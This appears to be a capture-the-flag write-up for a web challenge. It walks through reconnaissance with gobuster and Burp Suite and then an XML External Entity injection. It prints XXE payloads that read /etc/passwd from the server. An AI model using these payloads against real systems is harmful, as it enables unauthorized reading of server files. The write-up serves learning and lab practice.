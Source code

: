 ## Analysis
The website for this challenge is relatively simple, featuring no input fields but three buttons. Upon closer inspection, it becomes clear that the site does not hide any flags within its HTML elements.
![website](imgs/image.png)

Running **gobuster**, shows us existence of `/data` directory, which we cannot access.  However, this discovery suggests that the site likely uses HTTP requests for functionality.

Clicking 'details' will write us a information on program - after investigating these, we can see that upon using them, a http request is sent - and payload of response to this request is written on our screen.

Using **Burp Suite** ([https://portswigger.net/burp](https://portswigger.net/burp)), we can analyze the HTTP communication in detail.

![burpsuite](imgs/image-2.png)

We observe that the payload sent contains an ID parameter, and the server's response is based on this ID. If we modify the ID to an invalid value, such as 0, the server returns an error indicating that the specified ID does not exist.

Additionally, the payload is formatted in XML. If the web application lacks proper input validation or sanitization, this could expose it to XML-based attacks, such as XML External Entity (XXE) Injection. This vulnerability could allow us to exploit the system by injecting malicious XML entities.

## Exploit 

We can try to use XML external entity (XXE) injection (https://portswigger.net/web-security/xxe).

Using one of the examples from portswigger site
```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck>
    <productId>&xxe;</productId>    
</stockCheck>
```
We can change this to fit our previous payload.

```XML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY payload SYSTEM "file:///etc/passwd">
]>
<data>
  <ID>&payload;</ID>
</data>
```
Then just put this into `burpsuite repeater` and send the request.

![burpsuite-attack](imgs/image-1.png)
